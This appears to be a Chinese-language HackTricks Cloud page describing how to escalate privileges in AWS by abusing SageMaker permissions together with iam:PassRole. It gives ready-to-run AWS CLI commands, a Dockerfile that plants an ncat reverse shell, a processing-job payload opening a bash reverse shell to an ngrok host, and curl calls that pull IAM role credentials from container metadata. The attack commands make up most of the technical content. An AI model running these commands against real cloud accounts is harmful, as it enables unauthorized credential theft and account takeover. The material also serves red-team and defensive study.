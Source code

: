 # AWS - Sagemaker 权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## sagemaker

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

开始创建一个附加了IAM角色以便访问的笔记本：
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
```markdown
响应应包含一个`NotebookInstanceArn`字段，其中将包含新创建的笔记本实例的ARN。然后我们可以使用`create-presigned-notebook-instance-url` API生成一个URL，一旦笔记本实例准备就绪，我们就可以使用这个URL来访问它：
```
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
使用浏览器导航到URL，然后点击右上角的`Open JupyterLab`，向下滚动到“Launcher”标签，在“Other”部分点击“Terminal”按钮。

现在可以访问IAM角色的元数据凭证。

**潜在影响：**提升至指定的sagemaker服务角色权限。

### `sagemaker:CreatePresignedNotebookInstanceUrl`

如果已经有Jupyter **笔记本正在运行**，并且你可以使用`sagemaker:ListNotebookInstances`列出它们（或以任何其他方式发现它们）。你可以**为它们生成一个URL，访问它们，并按照前面的技术指示窃取凭证**。
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**潜在影响：** 提升至附加的 sagemaker 服务角色权限。

### `sagemaker:CreateProcessingJob,iam:PassRole`

拥有这些权限的攻击者可以使 **sagemaker 执行一个处理作业**，并附加一个 sagemaker 角色。攻击者可以指定将在 **AWS 管理的 ECS 账户实例** 中运行的容器的定义，并且 **窃取附加的 IAM 角色的凭证**。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在影响：**提升至指定的 sagemaker 服务角色权限。

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

拥有这些权限的攻击者将能够创建一个训练作业，在其上**运行一个任意容器**并且附加一个**角色**。因此，攻击者将能够窃取该角色的凭证。

{% hint style="warning" %}
与前一个场景相比，这个场景更难利用，因为你需要生成一个 Docker 镜像，该镜像将直接将反向 shell 或凭证发送给攻击者（你不能在训练作业的配置中指定启动命令）。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在影响：** 提升至指定的 sagemaker 服务角色权限。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

拥有这些权限的攻击者（潜在地）能够创建一个**超参数训练作业**，在其上**运行任意容器**并附加一个**角色**。\
_由于时间限制，我没有进行利用，但看起来与之前的利用类似，欢迎发送 PR 提供利用细节。_

# 参考资料
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>从零开始学习 AWS 黑客攻击技巧，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您希望在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF 版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客攻击技巧**。

</details>
